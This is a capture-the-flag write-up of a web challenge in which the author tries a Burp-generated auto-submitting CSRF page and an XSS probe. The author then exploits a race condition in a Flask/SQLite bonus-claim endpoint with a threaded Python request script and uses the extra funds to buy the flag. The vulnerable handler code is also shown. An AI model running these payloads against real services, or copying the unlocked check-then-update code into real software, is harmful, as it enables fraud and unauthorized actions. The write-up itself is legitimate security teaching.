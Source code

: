 # Straightforward

**Easy**

Test out our game center. You'll have free claiming bonus for first timers!

*Author: vicevirus ** **Flag format: UMCS{...}**

[http://159.69.219.192:7859/](http://159.69.219.192:7859/)

The challenge required a balance of $3000 to redeem a flag, but each user started with only $1000. The daily bonus system added $1000 more, totaling just $2000—still $1000 short of the goal.

---

The dashboard offered three actions:

- **Collect Daily Bonus**: A `POST` form to `/claim`
- **Redeem Secret Reward ($3000)**: A `POST` form to `/buy_flag`
- **Logout**: A `GET` form to `/logout`

Attempting to buy the flag via `/buy_flag` resulted in a redirect to `/dashboard` with a flash message:

> “Insufficient funds to redeem the reward.”
> 

This confirmed that I needed $3000 in my account, $1000 more than what I could normally accumulate.

---

### CSRF Vulnerability: A Dead End

I noticed the website relied solely on HTTP cookies to identify users, making it vulnerable to **Cross-Site Request Forgery (CSRF)**. Here’s how I explored that path:

![Screenshot 2025-04-14 171405.png](Straightforward%201d48e29fdec780c9a67dfbcfcd18ba73/7f2998c0-4319-442b-963d-e91c4c5b7051.png)

![image.png](Straightforward%201d48e29fdec780c9a67dfbcfcd18ba73/image.png)

### **First Attempt: CSRF on `/claim`**

I hypothesized I could trick other users into claiming their daily bonus and somehow redirect the funds to my account.

Example request:

```php
POST /claim HTTP/1.1
Host: 159.69.219.192:7859
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Cookie: session=eyJ1c2VybmFtZSI6InNveXJpYSJ9...
```

The request had no body and relied on the session cookie. I created a malicious HTML page to force other users to unknowingly trigger the request:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://159.69.219.192:7859/claim" method="POST">
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Unfortunately, the bonus was credited to the victim's account not mine as the server used the session cookie to identify the recipient.

### **Second Attempt: Parameter Injection**

I tried modifying the form to include a `username` parameter:

```html
<input type="hidden" name="username" value="attacker">
```

I even tried variations like `user=attacker`, `recipient=attacker`, and `claim_for=attacker`, but all were ignored. The server exclusively trusted `session['username']`. Thus, CSRF alone couldn’t redirect funds.

### XSS Exploration

While exploring, I noticed reflected input in the `username` parameter on `/dashboard`. Example:

```
GET /dashboard?username=soyriavypu57uu4k
```

Returned:

```html
<h2>Hello, soyriavypu57uu4k</h2>
```

I tested for **XSS** with:

```html
/dashboard?username="><script>alert('xss')</script>
```

But input was either encoded or blocked by the browser due to `HttpOnly` cookies. XSS wasn't exploitable here.

---

### Discovering Project Files & Race Conditions

Halfway through, I accessed the project codebase and identified two critical vulnerabilities:

1. **IDOR in `dashboard`**:
    
    ```python
    display_user = request.args.get('username') or session['username']
    ```
    
    This meant appending `?username=target_user` allowed me to view any user's balance. While helpful for recon, it didn’t help me increase *my* balance.
    
2.  **Race Condition in `/claim`**
    
    The real goldmine was a **race condition** caused by poor SQLite handling:
    
    The code used:
    
    ```python
    def get_db():
        if 'db' not in g:
            g.db = sqlite3.connect(DATABASE, check_same_thread=False)
            g.db.row_factory = sqlite3.Row
        return g.db
    
    def claim():
        if 'username' not in session:
            return redirect(url_for('register'))
        username = session['username']
        db = get_db()
        cur = db.execute('SELECT claimed FROM redemptions WHERE username=?', (username,))
        row = cur.fetchone()
        if row and row['claimed']:
            flash("You have already claimed your daily bonus!", "danger")
            return redirect(url_for('dashboard'))
        db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
        db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
        db.commit()
        flash("Daily bonus collected!", "success")
        return redirect(url_for('dashboard'))
    ```
    
    - **`check_same_thread=False`** for SQLite
    - No locking
    - No transaction wrapping for the check-update process
    
    This allowed concurrent POSTs to **`/claim`** to bypass the daily bonus limit.
    

### Exploiting the Race Condition

I wrote a simple Python script to send multiple concurrent requests:

```python
import requests
import threading

url = "http://159.69.219.192:7859/claim"
cookies = {"session": "eyJ1c2VybmFtZSI6InNmYWRhZGRzYWQifQ.Z_oEBg.Lfs9yLumisWCZMvNsIN8ofeEx08"}

def send_claim():
    response = requests.post(url, cookies=cookies)
    print(response.text)

threads = []
for _ in range(10):  # Send 10 concurrent requests
    t = threading.Thread(target=send_claim)
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

After execution, I checked `/dashboard` and saw my balance jump to **6000 units** confirming multiple bonuses were granted before the server marked the daily claim as complete.

![image.png](Straightforward%201d48e29fdec780c9a67dfbcfcd18ba73/image%201.png)

![image.png](Straightforward%201d48e29fdec780c9a67dfbcfcd18ba73/image%202.png)

### Buying the Flag

- With enough funds, I sent:

```php
POST /buy_flag HTTP/1.1
Host: 159.69.219.192:7859
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: http://159.69.219.192:7859
Connection: keep-alive
Referer: http://159.69.219.192:7859/dashboard
Cookie: session=eyJ1c2VybmFtZSI6ImRhc2RhZGF3ZGFzZCJ9.Z_ytuA.PIGnlrnvTZaipYwCne8B3BektPI
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

- The response contained the flag: `UMCS{...}`
    
    ![image.png](Straightforward%201d48e29fdec780c9a67dfbcfcd18ba73/image%203.png)
    
    ---
    
    ## Why CSRF Failed?
    
    - The server correctly tied bonus credit to the authenticated user in the session. Without a server-side flaw, CSRF couldn’t reroute bonuses.
    
    ### IDOR’s Role
    
    - It only revealed balances and was good for recon but useless for escalation.
    
    ### Race Condition Insight
    
    - The lack of atomic transactions and poor SQLite handling allowed me to bypass balance restrictions and exploit the logic race.